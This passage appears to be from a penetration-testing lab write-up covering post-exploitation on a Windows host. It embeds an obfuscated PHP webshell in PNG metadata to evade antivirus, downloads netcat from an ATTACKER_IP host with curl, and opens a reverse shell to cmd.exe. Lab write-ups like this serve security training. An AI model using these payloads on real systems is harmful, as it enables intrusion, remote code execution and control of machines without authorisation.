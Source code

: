 Once we got the PoC, our next step is to upload a file that will bypass the AV and execute command remotly. We uploaded the following PHP in the metadata of the PNG file:

```
exiftool -Comment="<?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>" test-path2.png.php
```

After the successfull upload, we can execute commands on the PC:

![Command: hostname](image-14.png)

and

![Command: hostname](image-15.png)

### Creating Reverse Shell on the PC
Since it is possible to execute commands on the **100.200.105.100** using a webshell, we uploaded an executable version ov Netcat, so we can generate a full reverse shell. To upload this executable, we sent the following commands to the webshell:

```
# Curl.exe to make sure that the tool is available on the target system
http://10.200.105.100/resources/uploads/shell-pat.png.php?wreath=curl.exe

# Upload nc.exe
curl http://ATTACKER_IP:8001/nc.exe -o c:\\windows\\temp\\nc-USERNAME.exe

curl http://10.50.106.78/nc64.exe -o c:\\windows\\temp\\nc-pat.exe
```

We sent then the following commands to create a shell:

```
# Listener on the attacking machine
nc -lvnp 47555

# Connecting the target to the attacking machine
powershell.exe c:\\windows\\temp\\nc-pat.exe ATTACKER_IP 47555 -e cmd.exe 
```
